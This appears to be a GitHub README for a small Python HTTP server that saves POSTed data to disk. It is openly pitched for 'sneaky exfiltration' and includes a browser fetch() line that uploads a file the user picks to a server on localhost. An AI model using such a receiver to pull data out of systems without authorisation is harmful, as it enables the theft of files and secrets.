 # exfiltration_http_server

A simple HTTP server that writes data it receives in POST requests to disk. Use it for sneaky exfiltration, maybe.

## Usage

```
usage: exfiltration_http_server.py [-h] [-o DIRECTORY] [-r] [-p PORT] [-b ADDRESS]

optional arguments:
  -h, --help            show this help message and exit
  -o DIRECTORY, --output-directory DIRECTORY
                        The output directory where files are to be written.
  -r, --use-random-filename
                        Use randomly-generated filenames rather than the filename in the URL path.
  -p PORT, --port PORT  The bind port to use.
  -b ADDRESS, --bind ADDRESS
                        The bind address to use.
```

### Example

In a terminal:

```shell
$ ./exfiltration_http_server.py --use-random-filename --port 8000 --bind localhost --output-directory /tmp
```

In a browser (tested in Chromium):

```javascript
fetch('http://localhost:8000', {method: 'POST', body: await (await window.showOpenFilePicker())[0].getFile()})
```

Once a file has been picked, it is uploaded to the HTTP server and its size and save path is printed in the terminal:

```
/tmp/c92a9138fe8234e207542a8d4386358c - 6 bytes
```

:thumbsup:
